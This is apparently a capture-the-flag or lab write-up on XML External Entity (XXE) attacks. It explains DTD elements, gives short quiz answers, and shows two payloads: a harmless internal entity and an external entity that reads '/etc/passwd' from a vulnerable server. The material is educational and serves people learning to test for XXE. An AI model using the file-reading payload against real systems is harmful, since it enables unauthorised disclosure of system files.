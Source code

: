 * !DOCTYPE note -  Defines a root element of the document named note
* !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
* !ELEMENT to - Defines the `to` element to be of type "#PCDATA"
* !ELEMENT from - Defines the `from` element to be of type "#PCDATA"
* !ELEMENT heading  - Defines the `heading` element to be of type "#PCDATA"
* !ELEMENT body - Defines the `body` element to be of type "#PCDATA"

NOTE: #PCDATA means parseable character data.

1. How do you define a new ELEMENT?

`!ELEMENT`

2. How do you define a ROOT element?

`!DOCTYPE`

3. How do you define a new ENTITY?

`!ENTITY`

## [Day 4] XML External Entity - XXE Payload

Now we'll see some XXE payload and see how they are working.

1. The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.

```html
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
    <userInfo>
        <firstName>falcon</firstName>
        <lastName>&name;</lastName>
    </userInfo>
```

As we can see we are defining a `ENTITY` called `name` and assigning it a value `feast`. Later we are using that ENTITY in our code.

1. We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Here again, we are defining an ENTITY with the name `read` but the difference is that we are setting it value to `SYSTEM` and path of the file.

If we use this payload then a website vulnerable to XXE(normally) would display the content of the file `/etc/passwd`.

In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.
